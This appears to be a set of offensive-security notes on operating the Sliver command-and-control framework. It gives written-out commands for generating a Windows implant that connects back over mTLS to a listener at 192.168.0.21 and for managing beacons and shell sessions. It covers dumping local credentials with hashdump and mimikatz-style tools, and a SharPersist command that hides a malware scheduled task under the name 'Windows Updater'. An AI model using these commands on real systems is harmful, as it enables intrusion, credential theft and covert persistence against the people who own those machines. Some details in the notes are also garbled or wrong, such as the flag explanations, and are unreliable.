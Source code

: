 ## Generating Binaries
* Generate an Implant (mtls, http, dns), this will generate a file saved at the location specified generate Generate a sliver binary
```
generate --mtls 192.168.0.21 --save ./file.exe --os Windows
```
* Start a listener
	* http Start an HTTP listener
	* https Start an HTTPS listener
	* dns Start a DNS listener
	* mtls Start an mTLS listener
* `jobs` shows the listeners
## Beacons
* periodically checks in with the server
	* used when trying to not be as noisy as a session
* kill all beacons with `beacons -k`
* to move from a beacon to a session, use the beacon and then use the command `interactive`

## Sessions
* essentially a shell
* If you land on a local-admin account use the `getsystem` to get a session
* `background` can background a session
* `hashdump` command from the armory pulls the local creds
* to kill a session run `session -k` followed by the session id

## The Armory
* Install all of the armory tools with `armory install all`
* if it starts with "sa" gets info on box
*  Sharpersit
```
sharpersist -- -t schtask -c "C:\Windows\Tasks\malwarefile.exe" -n "Windows Updater" -m add
```
* breaking down the command
	* -- sends arguments to program you are running instead of sliver
	* -t is type of persistence
	* -c is the type of command you want to run
	* -n is the name
	* -m updater

## Other Sliver Notes
* execute assembly
	* will take compiled program on your laptop and inject
* `sharpkatz` is mimikatz, should already be loaded in
* `secinject` section mapping process injection